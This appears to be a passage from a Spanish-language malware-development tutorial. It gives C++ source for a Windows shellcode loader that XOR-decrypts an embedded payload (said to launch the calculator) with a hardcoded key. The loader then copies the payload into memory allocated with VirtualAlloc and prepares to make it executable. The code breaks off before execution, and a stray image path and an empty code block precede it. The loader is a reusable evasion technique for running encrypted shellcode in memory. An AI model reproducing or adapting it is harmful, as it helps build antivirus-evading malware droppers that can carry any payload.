 ```python

```

Codigo fuente con el shellcode de la calculadora de windows:

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


void XOR(char * data, size_t data_len, char * key, size_t key_len) {
	int j;
	
	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char calc_payload[] = { 0x85, 0x17, 0xdc, 0x89, 0x9f, 0x8c, 0xa1, 0x62, 0x61, 0x21, 0x60, 0x70, 0x38, 0xf, 0xd, 0x3c, 0x39, 0x2c, 0x50, 0xb0, 0x4, 0x69, 0xaa, 0x73, 0x19, 0x17, 0xd4, 0x3f, 0x77, 0x2c, 0xea, 0x30, 0x41, 0x69, 0xaa, 0x53, 0x29, 0x17, 0x50, 0xda, 0x25, 0x2e, 0x2c, 0x53, 0xa8, 0x69, 0x10, 0xe1, 0xd5, 0x63, 0x3e, 0x11, 0x6d, 0x48, 0x41, 0x23, 0xa0, 0xe8, 0x2c, 0x60, 0x78, 0x9e, 0xbd, 0x80, 0x3d, 0x25, 0x30, 0x2a, 0xea, 0x73, 0x1, 0xaa, 0x3b, 0x63, 0x17, 0x6c, 0xbf, 0xef, 0xe1, 0xea, 0x61, 0x21, 0x21, 0x69, 0xfc, 0x9f, 0x2b, 0xa, 0x27, 0x65, 0xb1, 0x32, 0xea, 0x69, 0x39, 0x65, 0xf2, 0x1f, 0x7f, 0x24, 0x6e, 0xb4, 0x82, 0x34, 0x29, 0xde, 0xe8, 0x60, 0xf2, 0x6b, 0xd7, 0x25, 0x6e, 0xb2, 0x2c, 0x53, 0xa8, 0x69, 0x10, 0xe1, 0xd5, 0x1e, 0x9e, 0xa4, 0x62, 0x25, 0x60, 0xa3, 0x59, 0xc1, 0x54, 0xd0, 0x35, 0x5c, 0x13, 0x49, 0x67, 0x21, 0x58, 0xb3, 0x14, 0xf9, 0x79, 0x65, 0xf2, 0x1f, 0x7b, 0x24, 0x6e, 0xb4, 0x7, 0x23, 0xea, 0x2d, 0x69, 0x65, 0xf2, 0x1f, 0x43, 0x24, 0x6e, 0xb4, 0x20, 0xe9, 0x65, 0xa9, 0x69, 0x20, 0xa9, 0x1e, 0x7, 0x2c, 0x37, 0x3a, 0x38, 0x38, 0x20, 0x79, 0x60, 0x78, 0x38, 0x5, 0x17, 0xee, 0x83, 0x44, 0x20, 0x30, 0x9e, 0xc1, 0x79, 0x60, 0x20, 0x5, 0x17, 0xe6, 0x7d, 0x8d, 0x36, 0x9d, 0x9e, 0xde, 0x7c, 0x69, 0xc3, 0x5e, 0x5f, 0x6d, 0x6f, 0x64, 0x61, 0x62, 0x61, 0x69, 0xac, 0xac, 0x78, 0x5e, 0x5f, 0x6d, 0x2e, 0xde, 0x50, 0xe9, 0xe, 0xa6, 0xde, 0xf4, 0xc2, 0xaf, 0xea, 0xcf, 0x39, 0x25, 0xdb, 0xc4, 0xf4, 0x9c, 0xbc, 0xde, 0xac, 0x17, 0xdc, 0xa9, 0x47, 0x58, 0x67, 0x1e, 0x6b, 0xa1, 0xda, 0xc1, 0xc, 0x5a, 0xe4, 0x2a, 0x7c, 0x16, 0xe, 0x8, 0x61, 0x78, 0x60, 0xa8, 0xa3, 0xa0, 0x8a, 0xe, 0xe, 0x8, 0x2, 0x4c, 0x4, 0x59, 0x44, 0x21 };
	unsigned int payload_len = sizeof(calc_payload);
	char key[] = "y__modaba!!!";
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .data section %-20s : 0x%-016p\n", "payload addr", (void *)calc_payload);
	printf("\n [VirtualAlloc] of new moemory region %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	XOR((char *) calc_payload, payload_len, key, sizeof(key));
	printf("\n Decripted payload XOR %d\n", (void *)calc_payload);
	printf("\n Decripted pyaload XOR 0x%-016p\n", &calc_payload);
	getchar();
	printf(" [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
	printf(" [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
```